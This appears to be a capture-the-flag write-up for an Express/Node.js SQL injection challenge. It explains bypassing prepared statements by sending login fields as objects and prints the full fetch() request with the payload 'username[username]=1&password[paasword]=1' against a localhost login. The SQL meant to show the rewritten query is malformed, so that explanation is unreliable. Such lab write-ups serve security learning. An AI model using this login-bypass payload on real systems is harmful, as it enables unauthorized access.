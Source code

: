 # it's time to duel

This is a SQLi challenge via express.js and node.js
The idea is bypass the prepeared statments by changing the type of the variable as object so it becomes as follows:

Original query:

```sql
'SELECT * FROM accounts WHERE username = ? AND password = ?
```

Will become after changing the type of password to object :

```sql
'SELECT * FROM accounts WHERE username = ? AND password = password =1 ?
```

Therefore:

```sql
'SELECT * FROM accounts WHERE username = ?
 ```

Then it will access `/admin` endpoint

Based on this the request should be like this:
```
fetch("http://localhost:3000/api/login", {
  "headers": {
    "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "content-type": "application/x-www-form-urlencoded",
    "upgrade-insecure-requests": "1",
    "cookie": "G_ENABLED_IDPS=google; connect.sid=s%3A_xHJWE0OAnexvgZz_0sOQCncUyq3ShBE.zsbOLDCQz2OyLNCAfr7Tw%2B3kU1c71VL8AcwjmrKD5a0",
    "Referer": "http://localhost:3000/login",
  },
  "body": "username[username]=1&password[paasword]=1",
  "method": "POST"
});
```

After that a new endpoint will be accessible `/admin`
Then we can access the flag
